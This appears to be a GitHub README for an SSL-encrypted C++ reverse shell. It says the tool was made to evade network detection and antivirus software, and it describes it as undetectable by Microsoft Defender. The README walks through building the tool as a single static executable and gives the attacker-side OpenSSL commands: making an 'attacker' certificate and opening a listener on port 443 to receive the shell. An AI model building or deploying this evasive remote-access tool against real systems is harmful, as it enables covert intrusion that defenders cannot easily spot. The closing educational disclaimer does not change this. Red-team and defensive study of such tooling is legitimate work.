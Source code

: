 # SSL C++ Reverse Shell

## Overview
When it comes to SSL/TLS reverse shells, the publicly available options are often limited to:
- **Using `msfvenom` to generate an HTTPS reverse shell (Signatured)**.
- **Using a PowerShell / Python payload (high level languages)**.

### Why Do We Need One?
Using a standard reverse shell often results in unencrypted traffic, which can be easily flagged by **Network Detection and Response (NDR)** systems or firewalls. These tools inspect network traffic and can identify remote code execution patterns, blocking the binary and alerting defenders.

An encrypted reverse shell helps evade such detection by:
1. Encrypting all communication, making it harder for network tools to inspect the traffic.
2. Using SSL to blend in with legitimate HTTPS traffic.

To address this gap, I created a simple **C++ SSL Reverse Shell** POC (commented and explained):
- **Undetectable** by Microsoft Defender and some other AV solutions at the time of publishing.
- Enables secure communication via SSL, reducing the chance of detection.

> **Note**: I tested the binary against a limited set of antivirus solutions, and results may vary across environments.

---

## Setup Instructions
Follow these steps to set up the project:

1. **Download the Necessary Files**:
   - Clone the repository:  
     ```bash
     git clone https://github.com/V-i-x-x/SSLReverseShell.git
     ```
   - Download `OpenSSLWin64.zip` (linked in the repository).

2. **Extract OpenSSL Libraries**:
   - Unzip `OpenSSLWin64.zip` into a folder of your choice.  
     For example, in the project, I placed it in the `C:\` directory.

     ```plaintext
     C:\OpenSSLWin64
     ```

3. **Compile the Project**:
   - Ensure the project includes the OpenSSL libraries for successful compilation into a single `.exe` binary.

---

## Additional Notes
- **OpenSSLWin64**: This is the precompiled SSL library required for the project. Ensure it is correctly set up to avoid linking issues.
- **Testing**: While the binary is undetectable by some AV solutions as of now, this is not guaranteed against all antivirus software or future updates.

---

## Configuration In Visual Studio

1- Go to C/C++ → Code Generation → Runtime Library.
Set this to Multi-threaded (/MT) to ensure that your application links statically against the runtime libraries, which helps in creating a single binary.

![Local Image](./images/MT.png "MT FLAG")

2- Configuration Properties > C/C++ > General, add the path to the OpenSSL include directory (C:\OpenSSLWin64\install\include) to Additional Include Directories.

![Local Image](./images/Include.png "Include Libraries")

3- Under Configuration Properties > Linker > General, add the path to the OpenSSL library directory (C:\OpenSSLWin64\install\lib) to Additional Library Directories

![Local Image](./images/Linker1.png "Linker.png")

4- Under Configuration Properties > Linker > Input, add the following to Additional Dependencies:
C:\OpenSSLWin64\install\lib\libssl.lib
C:\OpenSSLWin64\install\lib\libcrypto.lib

![Local Image](./images/Linker2.png "Linker.png")

---

## Capture the reverse shell in your Kali OS

1- Generate a New RSA Private Key and Self-Signed Certificate (Containing the Public Key)
```
openssl req -newkey rsa:2048 -nodes -keyout attacker.key -x509 -days 365 -out attacker.crt
```
2- Combine the Private Key and Certificate into a PEM File
```
cat attacker.crt attacker.key > attacker.pem
```
3- Start an OpenSSL SSL Server on Port 443
```
openssl s_server -accept 443 -cert attacker.crt -key attacker.key -cipher ALL -quiet
```
---

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.

